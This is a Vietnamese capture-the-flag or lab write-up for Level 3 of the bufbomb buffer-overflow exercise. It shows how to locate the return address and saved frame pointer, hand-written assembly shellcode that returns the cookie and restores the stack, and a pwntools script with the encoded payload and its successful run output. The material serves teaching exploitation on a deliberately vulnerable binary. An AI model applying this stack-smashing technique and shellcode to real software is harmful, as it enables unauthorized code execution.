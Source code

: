# Level 3
## Task
Buffer overflow để hàm getbuf trả về `cookie` tương ứng với `userid` được nhập.  

## Solution
Cách chèn shellcode ở level này cũng sẽ tương tự như ở level trước, khác biệt duy nhất là chúng ta phải khôi phục trạng thái của chương trình thay vì để chương trình bị kết thúc sau khi thực thi shellcode.  

Đầu tiên, ta sẽ xác định `return address`.  
![image](https://user-images.githubusercontent.com/44528004/121771564-44868200-cb9a-11eb-9194-4148092d06ce.png)

Từ hình trên, ta thấy rằng câu lệnh sẽ được thực thi sau khi hàm `getbuf` trả về đó là:  

```
0x80139bd7 <test+19>    mov    dword ptr [ebp - 0xc], eax
```  

Vậy `return address = 0x80139bd7`.  

Bên cạnh đó, chúng ta cũng xác định được giá trị của thanh ghi `ebp` của hàm `test` là `0x55683d40`.  

Vậy lúc này, shellcode của chúng ta sẽ như sau:  
```asm
mov    $0x55683d40,%ebp
push   $0x80139bd7
ret
```

Với việc trả về `cookie`, chúng ta sẽ gán giá trị của `cookie` vào thanh ghi `eax`. Từ đó, shellcode sẽ là:  
```asm
mov    $0x8013f158,%eax
mov    (%eax),%eax
mov    $0x55683d40,%ebp
push   $0x80139bd7
ret
```  
> Với `0x8013f158` là địa chỉ của `cookie`.  

Tuy nhiên, với shellcode trên thì chương trình của chúng ta sẽ bị `segmentation fault`. Và khi debug thì ta thấy stack của chương trình trước khi gọi `getbuf` và trong khi thực thi shellcode có sự khác biệt và có lẽ đây là nguyên nhân khiến cho chương trình bị lỗi.  

Stack trước khi gọi `getbuf`:  
```
00:0000│ esp 0x55683d28 (_reserved+1039656) —▸ 0xf7f19dd6 (__memset_sse2_rep+294) ◂— add    ebx, 0x9922a
01:0004│     0x55683d2c (_reserved+1039660) —▸ 0xf7f19e6d (__memset_sse2_rep+445) ◂— add    ebx, 0x48523
02:0008│     0x55683d30 (_reserved+1039664) ◂— xchg   byte ptr [ecx + edx*4], bl /* 0x4d911c86 */
03:000c│     0x55683d34 (_reserved+1039668) —▸ 0x80139f30 (launch+122) ◂— add    esp, 0x10
04:0010│     0x55683d38 (_reserved+1039672) —▸ 0x8013b6cf ◂— push   esp /* 'Type string:' */
05:0014│     0x55683d3c (_reserved+1039676) ◂— 0xf4
06:0018│ ebp 0x55683d40 (_reserved+1039680) —▸ 0x55685fe0 (_reserved+1048544) —▸ 0xffffcbf8 —▸ 0xffffcc38 ◂— 0x0
07:001c│     0x55683d44 (_reserved+1039684) —▸ 0x80139f45 (launch+143) ◂— mov    eax, dword ptr [0x8013f15c]
```  

Stack trong khi thực thi shellcode:  
```
00:0000│ esp 0x55683d28 (_reserved+1039656) —▸ 0xf7f19d00 (__memset_sse2_rep+80) ◂— inc    edx
01:0004│     0x55683d2c (_reserved+1039660) —▸ 0xf7f19e6d (__memset_sse2_rep+445) ◂— add    ebx, 0x48523
02:0008│     0x55683d30 (_reserved+1039664) ◂— xchg   byte ptr [ecx + edx*4], bl /* 0x4d911c86 */
03:000c│     0x55683d34 (_reserved+1039668) —▸ 0x80139f30 (launch+122) ◂— add    esp, 0x10
04:0010│     0x55683d38 (_reserved+1039672) —▸ 0x8013b6cf ◂— push   esp /* 'Type string:' */
05:0014│     0x55683d3c (_reserved+1039676) ◂— 0xf4
06:0018│     0x55683d40 (_reserved+1039680) —▸ 0x55685fe0 (_reserved+1048544) —▸ 0xffffcbf8 —▸ 0xffffcc38 ◂— 0x0
07:001c│     0x55683d44 (_reserved+1039684) —▸ 0x80139f45 (launch+143) ◂— mov    eax, dword ptr [0x8013f15c]
```  

Vậy để có sự đồng nhất về stack, shellcode của chúng ta cần `pop` giá trị `0xf7f19d00` ra khỏi stack và `push` giá trị `0xf7f19dd6` vào stack.  

Từ đó, shellcode của chúng ta sẽ là:  
```asm
pop %eax
movl $0x8013F158,%eax
movl (%eax),%eax
movl $0x55683d40,%ebp
push $0xf7f19dd6
push $0x80139bd7
ret
```  
> Với câu lệnh đầu tiên sẽ `pop` giá trị `0xf7f19d00` vào thanh ghi `eax`, tuy nhiên sau đó `eax` sẽ được gán giá trị của `cookie` nên việc này sẽ không ảnh hưởng tới giá trị trả về.  

#### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

io = process(['./bufbomb', '-u', '09821978'])

shellcode = b'\x58\xb8\x58\xf1\x13\x80\x8b\x00\xbd\x40\x3d\x68\x55\x68\xd6\x9d\xf1\xf7\x68\xd7\x9b\x13\x80\xc3'
exploit_payload = shellcode + b'\x90' * (0x28 + 0x4 - len(shellcode))
exploit_payload += p32(0x55683cf8)

print(f"{exploit_payload = }")
with open("payload.txt", 'wb') as f:
    f.write(exploit_payload)

io.sendline(exploit_payload)
io.interactive()
```  

Chạy script.  
```
└─$ python3 level3.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 227
exploit_payload = b'X\xb8X\xf1\x13\x80\x8b\x00\xbd@=hUh\xd6\x9d\xf1\xf7h\xd7\x9b\x13\x80\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf8<hU'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 227)
Userid: 09821978
Cookie: 0x31f21393
Type string:Boom!: getbuf returned 0x31f21393
VALID
NICE JOB!
[*] Got EOF while reading in interactive
```  
> Chính xác!
